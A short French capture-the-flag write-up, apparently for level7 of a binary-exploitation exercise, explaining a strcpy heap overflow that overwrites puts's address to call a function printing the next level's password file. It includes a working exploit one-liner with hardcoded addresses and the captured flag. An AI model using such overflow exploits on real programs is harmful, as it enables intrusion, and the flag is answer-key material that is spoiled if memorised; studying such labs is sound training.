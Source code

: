 ## GET Flag

Ce niveau utilise lui aussi strcpy.

Il est possible de remplacer l'adresse de la chaîne de caractère de la seconde structure grâce au premier strcpy.
On peut ainsi la remplacer par l'adresse de la variable globale que va utiliser puts pour jump de ce fait avec le second strcpy il est possible de remplacer cette variable par l'adresse de la fonction `m`.
La fonction `m` va afficher le contenu de `/home/user/level8/.pass`.

```
./level7 $(python -c 'print 20 * "A" + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
```

Il est aussi possible d'effectuer un jump vers un shellcode.

### Flag

```
level8
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```
